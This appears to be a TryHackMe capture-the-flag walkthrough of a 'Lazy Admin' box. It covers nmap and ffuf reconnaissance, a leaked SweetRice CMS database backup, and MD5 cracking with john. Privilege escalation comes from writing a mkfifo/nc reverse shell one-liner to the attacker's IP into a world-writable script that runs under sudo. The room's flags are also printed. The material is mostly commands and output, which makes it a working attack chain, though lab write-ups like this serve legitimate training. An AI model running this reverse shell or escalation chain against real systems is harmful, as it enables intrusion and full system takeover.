 target : 10.10.14.121
user: THM{63e5bce9271952aad1113b6f1ac28a07}
root : THM{6637f41d0177b6f37cb20d775124699f}

┌──(root㉿kali)-[/home/…/CTFs/Boot2root/tryhackme/rooms]
└─# nmap 10.10.14.121                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-26 07:01 EDT
Nmap scan report for 10.10.14.121
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

┌──(root㉿kali)-[/home/…/CTFs/Boot2root/tryhackme/rooms]
└─# nmap -sC -sV 10.10.14.121

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

dir:
┌──(root㉿kali)-[/home/…/CTFs/Boot2root/tryhackme/rooms]
└─# ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.14.121/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

found : /content
CMS : BasicCMS

Second time fuzz:
┌──(root㉿kali)-[/home/…/CTFs/Boot2root/tryhackme/rooms]
└─# ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.14.121/content/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 2198, Words: 109, Lines: 36]
_themes                 [Status: 301, Size: 322, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
as                      [Status: 301, Size: 317, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 325, Words: 20, Lines: 10]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 318, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 2198, Words: 109, Lines: 36]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10]
:: Progress: [4624/4624] :: Job [1/1] :: 47 req/sec :: Duration: [0:00:55] :: Errors: 0 ::

found login here : http://10.10.14.121/content/as/
found a lot of dir and files here : http://10.10.14.121/content/inc/
found also mysql backup : http://10.10.14.121/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
found user and passwd: 
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',

crack the hash :
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# john --format=Raw-MD5 lazypass.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/wordlists/rockyou.txt
Password123      (?)     
1g 0:00:00:00 DONE 2/3 (2023-08-26 07:16) 12.50g/s 420000p/s 420000c/s 420000C/s coco21..181193
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
login: pass: manager:Password123


PrivEsc:
we have backup.pl in sudo -l
$ cat backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
in copy.sh we have write permission. we are going to add our listner here 
10.8.128.36
i just do
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.128.36 4444 >/tmp/f" > /etc/copy.sh

we need then to run this using sudo  : User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
and now we got root:
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.128.36] from (UNKNOWN) [10.10.14.121] 41546
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
# cd /root
# ls
root.txt
# cat *
THM{6637f41d0177b6f37cb20d775124699f}



















